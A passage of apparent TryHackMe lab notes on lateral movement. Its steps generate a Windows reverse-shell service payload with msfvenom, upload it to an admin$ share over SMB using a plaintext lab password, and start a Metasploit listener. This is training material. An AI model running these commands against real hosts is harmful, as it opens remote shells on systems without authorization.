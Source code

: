     * Connect to THMJMP2 via SSH
    
        ```
        ssh za\\rachael.atkinson@thmjmp2.za.tryhackme.com
        ```

        ![task3-ssh](./images/task3-ssh.png)

    * Create Payload
    
        ```
        msfvenom -p windows/shell/reverse_tcp -f exe-service LHOST=10.50.49.31 LPORT=4444 -o myservice.exe
        ```

        ![task3-create-payload](./images/task3-create-payload.png)

    * Upload Payload
    
        ```
        smbclient -c 'put myservice.exe' -U t1_leonard.summers -W ZA '//thmiis.za.tryhackme.com/admin$/' EZpass4ever
        ```

        ![task3-upload-payload](./images/task3-upload-payload.png)

    * Running msfconsole
    
        ```
        msfconsole -q -x "use exploit/multi/handler; set payload windows/shell/reverse_tcp; set LHOST lateralmovement; set LPORT 4444;exploit"
        ```

        ![task3-handler](./images/task3-handler.png)
